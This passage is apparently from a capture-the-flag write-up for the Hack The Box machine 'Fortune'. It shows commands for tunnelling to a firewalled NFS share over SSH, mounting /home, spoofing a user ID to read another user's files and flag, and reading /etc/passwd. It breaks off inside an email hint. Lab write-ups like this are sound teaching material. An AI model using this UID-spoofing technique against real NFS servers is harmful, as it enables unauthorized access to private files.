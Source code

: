 I don't get a prompt however. Looking at the `/etc/passwd` file, I see that this user doesn't have a shell associated with him:

`nfsuser:*:1002:1002::/home/nfsuser:/usr/sbin/authpf`

Because the user is named `nfsuser`, it's safe to assume there is something exported by NFS. I can see this in the `/etc/exports` file:

```
> cat /etc/exports

/home
```

The NFS port 2049 is firewalled but I can still access it by using local port forwarding in SSH.

```
# ssh -i fortune.key -L 2049:fortune.htb:2049 nfsuser@fortune.htb
Last login: Sat Mar  9 20:08:55 2019 from 10.10.14.23

Hello nfsuser. You are authenticated from host "10.10.14.23"
```

```
# mount -t nfs fortune.htb:/home /mnt
# ls -l /mnt
total 6
drwxr-xr-x 5 revssh   revssh   512 Nov  3 16:29 bob
drwxr-x--- 3 test1324 test1324 512 Nov  5 22:02 charlie
drwxr-xr-x 2     1002     1002 512 Nov  2 22:39 nfsuser
```

The `charlie` user directory is mapped to user ID 1000. I already has a user ID 1000 created on my Kali Linux box with the name `test1324`:

```
# grep test1324 /etc/passwd
test1324:x:1000:1000::/home/test1324:/bin/bash
```

To access `charlie`, I simply change to user `test1324` then I'm to access the files and the user flag.

```
root@ragingunicorn:~/htb/fortune# su test1324
test1324@ragingunicorn:/root/htb/fortune$ cd /mnt/charlie
test1324@ragingunicorn:/mnt/charlie$ ls
mbox  user.txt
test1324@ragingunicorn:/mnt/charlie$ cat user.txt
ada0af...
```

There's a mailbox file with a hint that we should look or the dba password next so we can log in as root:

```
test1324@ragingunicorn:/mnt/charlie$ cat mbox
From bob@fortune.htb Sat Nov  3 11:18:51 2018
Return-Path: <bob@fortune.htb>
Delivered-To: charlie@fortune.htb
Received: from localhost (fortune.htb [local])
	by fortune.htb (OpenSMTPD) with ESMTPA id bf12aa53
	for <charlie@fortune.htb>;
	Sat, 3 Nov 2018 11:18:51 -0400 (EDT)
From:  <bob@fortune.htb>
Date: Sat, 3 Nov 2018 11:18:51 -0400 (EDT)
To: charlie@fortune.htb
Subject: pgadmin4
Message-ID: <196699abe1fed384@fortune.htb>
Status: RO

```